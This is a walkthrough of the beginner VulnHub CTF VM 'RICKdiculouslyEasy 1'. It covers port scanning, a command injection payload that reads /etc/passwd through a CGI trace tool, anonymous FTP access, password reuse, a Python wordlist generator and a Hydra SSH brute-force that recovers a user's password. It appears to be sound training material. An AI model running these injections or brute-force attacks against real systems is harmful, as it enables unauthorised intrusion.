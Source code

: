 ## RICKdiculouslyEasy 1 VulnHub VM walkthrough

RICKdiculouslyEasy 1 by https://twitter.com/sayli_ambure

Link: https://www.vulnhub.com/entry/rickdiculouslyeasy-1,207/

```
This is a fedora server vm, created with virtualbox.
It is a very simple Rick and Morty themed boot to root.
There are 130 points worth of flags available (each flag has its points recorded with it), you should also get root.
It's designed to be a beginner ctf, if you're new to pen testing, check it out!
```

## Solution

#### 1. Sudo Netdiscover
![](Assets/1.png)
> IP address: 192.168.1.10

#### 2. Port scan: Nmap -sC -sV -Pn -A -p- 192.168.1.10
![](Assets/2.png)
![](Assets/2.1.png)
> 21 -> ftp -> vsftpd 3.0.3 -> anonymous
> 22 -> ssh
> 80 -> Apache httpd 2.4.27
> 9090 -> Cockpit webservice
> 13337 -> unknown
> flag (10 pt) => total 10 points
> 22222 -> ssh -> OpenSSH 7.5 (protocol 2.0)
> 60000 > unknown

#### 3. Nikto: Nikto -h 192.168.1.10
![](Assets/3.png)
> passwords/ directory
> icons/ directory

#### 4. Browser > http://192.168.1.10/passwords/
![](Assets/4.png)
> FLAG.txt
> passwords.html

#### 5. Browser > http://192.168.1.10/passwords/FLAG.txt
![](Assets/5.png)
> Got Flag (10 pt) = total points 20

#### 6. Browser > http://192.168.1.10/passwords.html and page source code
![](Assets/6.png)
![](Assets/7.png)
> password > winter

#### 7. Browser > http://192.168.1.10/icons/
![](Assets/8.png)
> nothing special other than directory listing

#### 8. Browser > http://192.168.1.10/robots.txt
![](Assets/9.png)
> /cgi-bin/root_shell.cgi
> /cgi-bin/tracertool.cgi

#### 9. Browser > view-source:http://192.168.1.10/cgi-bin/root_shell.cgi
![](Assets/10.png)
> nothing useful

#### 10. Browser > http://192.168.1.10/cgi-bin/tracertool.cgi
![](Assets/11.png)
![](Assets/12.png)
> Vulnerable to command injection
![](Assets/13.png)
> cat command doesn't work. Can use 'more', 'less','head' or 'tail' instead

#### 11. Payload > ; more /etc/passwd
![](Assets/14.png)
> Note users 'morty', 'ricksanchez' and 'summer'

#### 12. Ftp 192.168.1.10 > anonymous:anonymous 
![](Assets/15.png)
> logged in
![](Assets/16.png)
> ftp://192.168.1.10 > Flag.txt (10 pt) => total 30 points

#### 13. ssh 192.168.1.10 22
![](Assets/17.png)
> Not accessible

#### 14. Browser > http://192.168.1.10:9090
![](Assets/18.png)
> Got flag (10 pt) => total 40 points

#### 15. Try winter password for users found in step 11 via SSH on 22222 port
![](Assets/19.png)
> Didn't work
![](Assets/20.png)
> Worked for user 'Summer'
> Got flag (10 pt) => total 50 points
![](Assets/21.png)
> password for unzipping journal.txt.zip is in safe_password.jpg
![](Assets/22.png)
> Pull jpg file in host machine
![](Assets/23.png)
> Got safe password
![](Assets/24.png)
> Got Flag (20 pt) => total 70 points
![](Assets/25.png)
![](Assets/26.png)
> Used flag in journal.txt as argument for safe
> Got next flag (20 pt) => total 90 points
> Got Pattern for RickSanchez password

#### 16. Create python script for all possible password combinations using the clue to feed Hydra:
```
def main():
    LETTERS = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
    DIGITS = '0123456789'
    BAND_WORDS = ['The', 'Flesh', 'Curtains']
    with open('rickpwd.txt', 'w') as f:
        for letter in LETTERS:
            for digit in DIGITS:
                for word in BAND_WORDS:
                    f.write('{}{}{}\n'.format(letter, digit, word))
        f.flush()
if __name__ == '__main__':
    main()
```
> rickpwd.txt created

#### 17. Hydra -l RickSanchez -P rickpwd.txt 192.168.1.10 ssh -s 22222
![](Assets/27.png)
> Password for RickSanchez user > P7Curtains

#### 18. ssh RickSanchez@192.168.1.10 -p 22222
![](Assets/28.png)
![](Assets/29.png)
> Got root and Flag (30 pt) => total 120 points

#### 19. Analyzing remaining ports: telnet 192.168.1.10 13337
![](Assets/30.png)
> Flag already found

#### 20. nc 192.168.1.10 60000
![](Assets/31.png)
> Got Flag (10 pt) => total 130 points

> Got all 130/130 points and owned root.
